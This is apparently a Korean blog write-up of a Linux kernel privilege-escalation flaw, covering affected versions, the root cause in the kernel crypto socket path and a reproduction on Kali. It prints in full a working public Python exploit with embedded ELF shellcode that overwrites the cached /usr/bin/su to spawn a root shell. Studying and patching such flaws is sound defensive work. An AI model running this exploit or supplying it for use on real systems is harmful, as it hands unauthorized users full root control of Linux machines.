





<strong>CVSS</strong>: <strong>7.8 (High)</strong>

올해 엄청 화제되었던 취약점 중 하나인 Copy Fail 취약점을 알아보려고 한다.

## 해당되는 버전

| 취약 버전 | 수정 버전 |
| --- | --- |
| 5.10.253 이하 | 5.10.254 |
| 5.15.203 이하 | 5.15.204 |
| 6.1.169 이하 | 6.1.170 |
| 6.6.136 이하 | 6.6.137 |
| 6.12.84 이하 | 6.12.85 |
| 6.18.21 이하 | 6.18.22 |
| 6.19.11 이하 | 6.19.12 |

## 개요

Copy Fail은 간단하게 2017년 이후 취약한 커널 코드가 포함된 여러 리눅스 배포판에서 일반 사용자가 root 권한을 획득할 수 있는 로컬 권한 상승 취약점이다. 컨테이너 환경에서는 구성에 따라 컨테이너 탈출로 이어질 수도 있다.

어째서 이 취약점이 유명하냐고 묻는다면 많겠지만 크게 2개의 이유가 있다고 생각한다.

1. 레이스 컨디션이 필요하지 않아 재현성이 높다.
   - 타이밍을 맞추는 경쟁 없이 같은 순서로 공격할 수 있어 재현성이 높다.<br />다만 패치된 커널에서는 통하지 않는다.
2. AI를 활용해 찾은 취약점이다.
   - 연구자가 공격 가능성을 짚었고, AI 도구가 관련 커널 코드를 분석해 취약점을 발견하는 데 도움을 줬다.

## 어떤 원리인가?

리눅스는 파일을 읽거나 실행할 때 그 내용을 메모리의 <strong>페이지 캐시</strong>에 올려둔다<br />공격자는 읽기 가능한 파일을 암호화 기능에 전달하는데, 이 과정에서 암호화 기능이 계산용으로 쓴 4바이트가 파일의 페이지 캐시에 잘못 기록된다.<br />디스크의 파일을 직접 고칠 권한이 없어도 메모리 속 내용이 바뀌는 것이다.

```c
페이지 캐시?
- 파일을 빠르게 읽고 실행할 수 있도록 리눅스가 파일 내용을 RAM에 보관해 두는 공간
```

이 4바이트 쓰기를 반복해 관리자 권한으로 실행되는 프로그램의 캐시를 바꾸면 권한 상승으로 이어질 수 있다.

## 피해 가능 범위

먼저 피해 가능 범위는 엄청나게 넓다고 볼 수 있다(취약한 시스템에서 일반 사용자가 root 권한으로 상승할 수 있기 때문이다).

| 사용 환경 | 피해 가능 범위 |
| --- | --- |
| Ubuntu·Debian 서버 | 관리자 권한 획득 및 서버 장악 |
| Red Hat·Amazon Linux 서버 | 중요 파일 열람·변조 |
| Docker·Kubernetes | 컨테이너 구성에 따라 탈출 및 호스트 영향 가능 |
| 웹·클라우드 서버 | 사용자 정보와 인증 정보 탈취 |
| CI/CD 서버 | 빌드 서버 장악 및 악성코드 삽입 |
| 개인용 Linux PC | 파일 탈취, 악성코드 설치 |

대표적으로는 이 정도의 피해 가능 범위가 존재한다.

## 루트커즈 + PoC 알아보기

리눅스 커널 안에는 인증 암호화(AEAD)를 처리하는 모듈이 여러 개 구현되어 있다.

리눅스 커널은 AF\_ALG를 통해 내부의 암호화 모듈을 일반 사용자 프로세스에도 제공한다. 따라서 일반 사용자도 socket()을 사용해 algif\_aead를 거쳐 authencesn에 입력을 전달할 수 있다.

Copy Fail은 authencesn 하나만의 문제라기보다는 <code>splice()</code>, <code>algif_aead</code>, <code>authencesn</code>의 동작이 서로 맞물리면서 발생한 취약점이다.

여기까지 나온 개념들을 한 번 정리하고 루트커즈로 넘어가자.

```c
AEAD?
- 데이터를 암호화하는 동시에 데이터가 변조되지 않았는지 무결성까지 검증하는 방식
- IPsec, TLS 등 다양한 곳에서 사용되고 있음

authencesn?
- ESN 옵션이 적용된 IPsec 패킷을 처리하기 위한 AEAD 헬퍼 템플릿
- 일반 암호 알고리즘과 인증 알고리즘을 조합해 인증 암호화를 수행함

AF_ALG?
- 일반 사용자 프로그램이 리눅스 커널의 암호화 기능을 사용할 수 있게 해주는 소켓 인터페이스
- 특별한 root 권한 없이 socket()을 통해 커널 암호화 모듈에 데이터를 전달할 수 있음

algif_aead?
- AF_ALG에서 AEAD 암호화와 복호화 요청을 처리하는 커널 코드
- 사용자 입력을 커널의 AEAD 알고리즘에 연결해주는 역할을 함
```

### 루트커즈

먼저 공격자는 <code>splice()</code>를 사용해 읽기 가능한 파일을 AF\_ALG 소켓으로 전달한다. 이때 파일의 페이지 캐시가 복사되지 않고 암호화 입력 scatterlist에 참조 형태로 연결된다.

<code>algif_aead</code>는 속도를 높이기 위해 입력과 출력을 같은 scatterlist에서 처리하는 in-place 방식을 사용하고 있었다. 복호화할 때 AAD와 암호문은 출력 버퍼로 복사했지만, 인증 태그가 들어 있는 입력 페이지는 그대로 출력 목록 뒤에 연결했다.

여기서 authencesn은 ESN 값을 계산하기 위해 정상 출력 범위를 벗어난 위치에 <code>seqno_lo</code> 4바이트를 임시로 기록한다.

authencesn은 그 위치를 계산용 공간이라고 생각했지만, 실제로는 algif\_aead가 연결한 파일의 페이지 캐시가 놓여 있었다. 따라서 계산용 4바이트가 파일의 페이지 캐시에 그대로 기록된다.

공격자는 다음 세 가지를 조절할 수 있다.

1. 어떤 파일을 대상으로 할지
2. 파일의 어느 위치를 덮어쓸지
3. 어떤 4바이트 값을 기록할지

이후 암호화 인증이 실패해 <code>recv()</code>가 오류를 반환하더라도 이미 기록된 4바이트는 복구되지 않는다. 페이지 캐시만 바뀌기 때문에 디스크의 원본 파일은 그대로 남는다.

```c
splice()?
- 파일 데이터를 사용자 공간으로 복사하지 않고 파일 디스크립터 사이에서 전달하는 시스템 콜
- Copy Fail에서는 파일의 페이지 캐시가 복사본이 아닌 참조 형태로 암호화 입력에 전달됨

scatterlist?
- 여러 위치에 흩어진 메모리를 목록으로 연결해 하나의 데이터처럼 처리하는 커널 구조
- Copy Fail에서는 일반 사용자 버퍼와 파일의 페이지 캐시가 하나의 목록에 함께 연결됨

in-place 방식?
- 입력을 읽은 메모리 공간에 결과도 바로 저장하는 방식
- 별도의 출력 공간이 필요 없어 빠르지만 입력 쪽 메모리도 쓰기 대상이 될 수 있음

AAD?
- 암호화하지는 않지만 변조 여부는 함께 검사하는 부가 데이터
- authencesn은 AAD 안의 ESN 값을 계산에 사용함

인증 태그?
- 암호화된 데이터가 변조되지 않았는지 확인하기 위한 값
- algif_aead는 이 부분을 복사하지 않고 기존 입력 페이지를 출력 목록 뒤에 연결했음

seqno_lo?
- IPsec ESN을 구성하는 하위 4바이트 값
- authencesn이 계산 과정에서 임시 공간에 기록하는 값
```

### PoC는 어떻게 동작하는가?

공개된 PoC는 위에서 설명한 4바이트 쓰기를 여러 번 반복해 <code>/usr/bin/su</code>의 페이지 캐시에 작은 셸코드를 삽입한다.

1. 일반 사용자 권한으로 <code>/usr/bin/su</code>를 읽기 전용으로 연다.
2. AF\_ALG 소켓을 만들고 <code>authencesn(hmac(sha256),cbc(aes))</code> 알고리즘을 선택한다.
3. <code>sendmsg()</code>를 사용해 페이지 캐시에 기록할 4바이트를 AAD 안에 넣는다.
4. <code>splice()</code>로 <code>/usr/bin/su</code>의 페이지 캐시를 암호화 입력에 연결한다.
5. <code>recv()</code>를 호출해 복호화 작업과 4바이트 쓰기를 실행한다.
6. 이 과정을 반복해 셸코드를 4바이트씩 페이지 캐시에 기록한다.
7. 마지막으로 <code>su</code>를 실행한다.

<code>/usr/bin/su</code>의 디스크 원본은 바뀌지 않았지만 리눅스는 실행할 때 변경된 페이지 캐시를 사용한다. 따라서 삽입된 셸코드가 root 권한으로 실행되면서 일반 사용자가 root 권한을 얻게 된다.

이 PoC는 레이스 컨디션이나 커널 주소 계산이 필요하지 않아서 같은 순서대로 실행하면 높은 재현성을 보인다.

```c
setuid 프로그램?
- 실행한 사용자가 아니라 파일 소유자의 권한으로 동작하는 프로그램
- /usr/bin/su는 root가 소유한 setuid 프로그램이므로 실행될 때 root 권한을 사용함

sendmsg()?
- 소켓으로 데이터와 추가 설정 정보를 함께 전달하는 시스템 콜
- PoC는 페이지 캐시에 기록할 4바이트를 AAD 안에 넣어 전달함

recv()?
- 소켓에서 결과를 받는 시스템 콜
- PoC에서는 복호화 작업을 시작해 실제 4바이트 쓰기를 발생시키는 역할을 함
```

## 코드를 보면서 작동 원리 확인해 보기

```py
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
```

위 코드는 실제로 공개되어 있는 Copy Fail의 PoC 코드이다.

우리는 이제 위 코드를 보면서 작동 원리를 확인해 보고 실제로 간단하게 재현까지 해볼 것이다.<br />(아주 조금씩 부분마다 뜯으면서 행위를 볼 것이다.)

```py
f=g.open("/usr/bin/su",0)
```

<code>f</code> 변수에는 <code>/usr/bin/su</code> 파일을 읽기 전용으로 열고 반환된 파일 디스크립터가 저장된다. <code>su</code>는 일반 사용자도 실행할 수 있지만, 정상적으로 root 셸을 얻으려면 root 비밀번호 인증이 필요하다.

```py
e=zlib.decompress(d("..."))
```

<code>e</code> 변수에는 16진수로 저장된 압축 데이터를 해제한 160바이트 크기의 ELF가 저장되어 있는 것을 볼 수 있다.

HxD로 확인하면 파일 앞부분의 <code>7F 45 4C 46</code>을 통해 ELF 파일임을 알 수 있고, 마지막 부분에는 <code>/bin/sh</code> 문자열이 들어 있다.



*간단하게 HxD로 까봤다.*

이 ELF는 <code>setuid(0)</code>을 호출한 뒤 <code>/bin/sh</code>를 실행하도록 만들어져 있다.

즉, <code>f</code>는 덮어쓸 대상인 <code>/usr/bin/su</code>를 가리키고, <code>e</code>는 페이지 캐시에 덮어쓸 ELF 페이로드를 담고 있다.

```py
while i<len(e):
    c(f,i,e[i:i+4])
    i+=4
```

<code>while</code>문은 <code>e</code>에 저장된 160바이트 ELF 페이로드를 4바이트씩 잘라 <code>c()</code> 함수에 전달한다.<br />작업이 끝나면 <code>i</code>에 4를 더해 다음 위치로 이동한다. 이 과정을 반복하면서 <code>/usr/bin/su</code>의 페이지 캐시를 ELF 페이로드로 덮어쓴다.

```py
g.system("su")
```

페이지 캐시가 변조된 <code>su</code>를 실행한다. <code>su</code>는 setuid 프로그램이므로 삽입된 ELF 페이로드가 root 권한으로 실행되고, <code>/bin/sh</code>를 열어 root 셸을 획득한다.

## 재현

간단하게 Kali Linux로 환경을 구성해서 재현해 보기로 하였다.<br />(ISO가 Kali밖에 없길래..)



먼저 버전을 확인해 보니 Copy Fail의 취약 커널 버전 범위에 들어가 있는 것을 확인할 수 있었다.



이제 Python 코드 실행 파일을 만들어주자.



저장한 뒤 위 사진처럼 Python 명령어를 실행해 준 뒤 <code>id</code>를 입력하면 다음과 같이 <code>uid=0(root)</code> 문자가 나오면서 정상적으로 재현에 성공한다.

## CVE-2026-31431(Copy Fail) 취약점을 공부하면서 느낀 점

원래 유명한 취약점이라 어느 정도 알고 있었지만 이렇게 실제로 재현해 본 건 처음인 것 같다.<br />알고 있었지만 이렇게 짧은 코드로 root 권한을 얻는 모습을 직접 보니 다시 봐도 충격적이었다.

실제로 실습해 보니 페이지 캐시, <code>splice()</code>, AF\_ALG처럼 처음에는 어려웠던 개념들이 하나의 공격 흐름으로 이어지는 과정을 더 잘 이해할 수 있었다. 단순히 PoC를 실행하는 것에서 끝나는 것이 아니라 코드가 왜 동작하는지 하나씩 확인해 보는 과정이 중요하다는 것도 느꼈다.

또한 오래된 커널 코드의 작은 처리 실수가 오랜 시간이 지난 뒤 큰 권한 상승 취약점으로 이어질 수 있다는 점에서 꾸준한 업데이트와 패치가 중요하다는 것을 알게 되었다.

## 참고자료

- [Copy Fail 기술 분석](https://copy.fail/#copy-fail)
- [Theori 공식 PoC](https://github.com/theori-io/copy-fail-CVE-2026-31431)
- [https://theori.io/ko/blog/copy-fail-page-cache](https://theori.io/ko/blog/copy-fail-page-cache)

